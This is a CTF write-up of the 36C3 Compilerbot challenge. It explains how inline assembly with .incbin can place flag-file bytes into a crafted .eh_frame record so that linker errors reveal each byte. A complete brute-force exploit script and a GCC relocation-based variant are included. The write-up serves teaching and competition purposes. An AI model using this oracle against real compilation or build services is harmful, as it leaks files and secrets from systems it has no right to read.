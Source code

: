 ```yaml
---
title: 36C3 CTF - Compilerbot
authors: Ryan Govostes (rgov)
date: 2019-12-28
categories: misc
---
```



The server for this challenge accepts C source code and compiles it into an executable using Clang. Our objective is to recover the contents of the flag file, *but our code is never executed*. The server only tells us whether the compilation was successful and produced no warnings.

The server's response could serve as an oracle if we are able to guess part of the flag and make the compilation fail or emit a warning if our guess is incorrect.

We can throw out any approach that involves `#include "flag"` because the flag is likely not valid C code, and you [cannot abuse the preprocessor to create a string from the contents of a file](https://stackoverflow.com/questions/1246301/c-c-can-you-include-a-file-into-a-string-literal).

A better starting point is to use inline assembly and the the [`.incbin`](https://sourceware.org/binutils/docs/as/Incbin.html#Incbin) assembler directive, which includes the given file, or a portion of it, verbatim in the binary. (We first learned about this from write-ups of the [Oneline Calc](https://ctftime.org/task/9149) challenge from TokyoWesterns CTF 2019.)

When we use `.incbin`, the file contents are not embedded until the assembler stage, so we aren't going to be able to trigger an error dependent on the content of the flag before this stage (or during it).

The last stage, linking, follows the assembler. It transforms the object file produced by the assembler into an executable. This is the stage we should target: we want to produce an object file that the linker either accepts or rejects based on the contents of the flag.

To do this, we need to look at structures in the object file that the linker uses. There are a number of special sections (see [`elf(5)`](http://man7.org/linux/man-pages/man5/elf.5.html), under "Section header") which hold control information used by the linker; if one of these sections is invalid, it may cause a linker error.

For example, the GNU `ld` linker creates a lookup table from [`.eh_frame`](https://refspecs.linuxfoundation.org/LSB_3.0.0/LSB-PDA/LSB-PDA/ehframechpt.html) sections, and if one of them is not correctly formed, the table generation will fail. We can create a valid section manually with inline assembly:

```c
// create a dummy a Call Frame Information record 
__asm__(
    ".pushsection .eh_frame\n"

    // length of CIE record
    ".long 0x0000000D\n"

    // CIE fields
    ".long 0x00000000\n"
    ".byte 0x01\n"
    ".asciz \"zR\"\n"
    ".byte 0\n"
    ".byte 0\n"
    ".byte 0\n"
    ".byte 0\n"
    ".byte 0\n"

    ".popsection\n"
);
```

Since the record contains a length field, we could corrupt the `.eh_frame` by providing a length that is too long or too short, causing the linker to read garbage when it scans the next record. For instance, we could read one byte of the flag file into the least-significant byte of the record length:

```c
    // length of CIE record
    ".incbin \"flag\", 0, 1\n"
    ".byte 0\n"
    ".byte 0\n"
    ".byte 0\n"
```

If the first byte of the flag has value 13 (carriage return), then the record length is correct and there will be no linker error. But for any other value, we get:

    /usr/bin/ld: error in /tmp/test-a17b24.o(.eh_frame); no .eh_frame_hdr table will be created

(Note that the compilation technically succeeds but the challenge server considers any message written to standard error as a failure.)

This can be used as our oracle. To test if the first byte is some value *other* than 13, we just need to pad the end of the struct:

```c
    // pad extra bytes; linking will succeed if the first byte of the flag
    // is 97 (ASCII 'a')
    ".rept 97 - 13\n"
    ".byte 0\n"
    ".endr\n"
```

Now we can adjust the amount of padding to change the record size until the linker stops complaining, which indicates that the record size is consistent with its length field, and therefore that the record size equals the value of the first byte of the flag.

This can be repeated for the next byte until the entire flag is recovered.


## Exploit

Thanks to Sophia d'Antoine for fixing an oversight in my exploit code.

```python
#!/usr/bin/env python
import subprocess


payload = r'''
__asm__ (
    ".pushsection .eh_frame\n"

    // length of CIE record, using one byte from flag
    // length must be at least 13
    ".incbin \"flag\", __OFFSET__, 1\n"
    ".rept 3\n"
    ".byte 0\n"
    ".endr\n"

    // 13 bytes of CIE record junk
    // http://refspecs.linuxfoundation.org/LSB_3.0.0/LSB-Core-generic/LSB-Core-generic/ehframechpt.html
    ".long 0x00000000\n"
    ".byte 0x01\n"
    ".asciz \"zR\"\n"
    ".byte 0\n"
    ".byte 0\n"
    ".byte 0\n"
    ".byte 0\n"
    ".byte 0\n"

    ".rept __GUESS__ - 13\n"
    ".byte 0\n"
    ".endr\n"

    ".popsection\n"
);
'''


# this runs the compiler locally, running against the challenge server is left
# as an exercise to the reader
def try_compile(code):
    code = 'int main(void) { ' + code + ' }'
    sub = subprocess.Popen(['clang', '-x', 'c', '-o', '/dev/null', '-'],
                           stdin=subprocess.PIPE,
                           stdout=subprocess.PIPE,
                           stderr=subprocess.STDOUT)
    stdout, _ = sub.communicate(code)
    return sub.returncode == 0 and stdout.strip() == ''


# test first
code = payload
code = code.replace(r'".incbin \"flag\", __OFFSET__, 1\n"',
                    r'".byte 0x20\n"')
code = code.replace('__GUESS__', '0x20')
assert try_compile(code)


# recover the flag
flag = ''
for flag_offset in range(32):
    for guess in range(0x20, 0x7f):
        code = payload
        code = code.replace('__GUESS__', str(guess))
        code = code.replace('__OFFSET__', str(flag_offset))
        if try_compile(code):
            flag += chr(guess)
            break
    else:
        # no guess worked, maybe end of the flag
        break

print('flag is', flag)
```


## Bonus 

Due to an oversight, I initially implemented this exploit against GCC and found a slightly different oracle:

I created a dummy section of a certain number of bytes, and a [relocation entry](https://refspecs.linuxbase.org/elf/gabi4+/ch4.reloc.html) that would increment the byte at a given offset.

GCC, but not Clang, will apply the relocation by the time the final executable is linked. (If you can make this work with Clang, please let me know.)

If the relocation entry's offset is beyond the bounds of the dummy section, the linker complains:

    /usr/bin/ld: /tmp/ccQDGoK1.o(.foo+0x10): reloc against `*UND*': error 4
    /usr/bin/ld: final link failed: nonrepresentable section on output
    collect2: error: ld returned 1 exit status

We can apply the same general idea as above: use `.incbin` to read a byte of the flag into the relocation entry's offset, and adjust the size of the dummy section according to our guess.

```c
__asm__ (
    // create a section of N bytes
    ".pushsection .foo\n"
    ".rept 97\n"
    ".byte 0xFF\n"
    ".endr\n"
    ".popsection\n"
    
    // create a relocation that tries to modify our section at some offset
    // based on a single byte of the flag; if it is out of bounds then the
    // linker will error
    ".pushsection .rela.foo\n"
    ".align 1\n"

    // offset into .foo -- must not overflow !
    ".incbin \"flag\", 0, 1\n"
    ".rept 7\n"
    ".byte 0\n"
    ".endr\n"

    ".quad 0x000000000000000E\n" // type of reloc: R_X86_64_8
    ".quad 0x0000000000000001\n" // value to add at that offset
    ".popsection\n"
);
```
